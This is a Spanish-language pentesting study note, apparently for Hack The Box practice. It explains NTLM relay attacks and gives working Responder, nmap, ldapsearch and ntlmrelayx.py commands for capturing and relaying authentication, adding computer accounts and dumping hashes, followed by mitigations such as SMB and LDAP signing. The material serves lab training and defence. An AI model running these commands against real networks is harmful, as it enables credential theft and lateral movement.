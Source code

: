 ### Máquinas HTB para practicar
- **Devel** (Easy) - PtH básico
- **Bastard** (Medium) - Movimiento lateral con PtH
- **Optimum** (Easy) - Extracción y uso de hashes

---

## 4. NTLM RELAY

### ¿Por qué ocurre?
- **Falta de signing:** Servicios que no requieren firma SMB/LDAP
- **Autenticación no dirigida:** Clientes que se autentican con servidores no confiables
- **Configuración:** Default settings en muchos servicios enterprise

### Mecánica del ataque
1. **Interceptación:** Capturar autenticación NTLM
2. **Relé:** Retransmitir a servidor objetivo
3. **Ejecución:** Comandos como usuario víctima en servidor objetivo

### Sistemas afectados
- **SMB sin signing requerido**
- **LDAP sin signing/channel binding**
- **HTTP/HTTPS** con autenticación NTLM
- **Mitigado pero no eliminado** en entornos modernos

### Detección y Explotación
**Localización:**
```bash
# Verificar SMB signing
nmap --script smb2-security-mode -p 445 10.10.10.0/24

# Responder para capturar hashes
responder -I eth0 -dw

# Verificar LDAP signing
ldapsearch -H ldap://DC_IP -x -s base | grep supportedSASLMechanisms
```

**Explotación:**
```bash
# 1. Iniciar relay
ntlmrelayx.py -t ldap://DC_IP --add-computer -smb2support

# 2. Forzar autenticación (via Responder u otro)
# 3. Ejecutar comandos en sistemas comprometidos

# Relay a SMB para volcar hashes
ntlmrelayx.py -t smb://TARGET_IP -smb2support -of hashes.txt
```

### Prevención/Mitigación
- **Habilitar SMB signing** en todos los clientes/servidores
- **LDAP signing/channel binding** habilitado
- **EPA** (Extended Protection for Authentication) para servicios web
- **Segmentación de red** y restricciones de tráfico
- **Monitorear** eventos 4624 desde múltiples IPs rápidamente

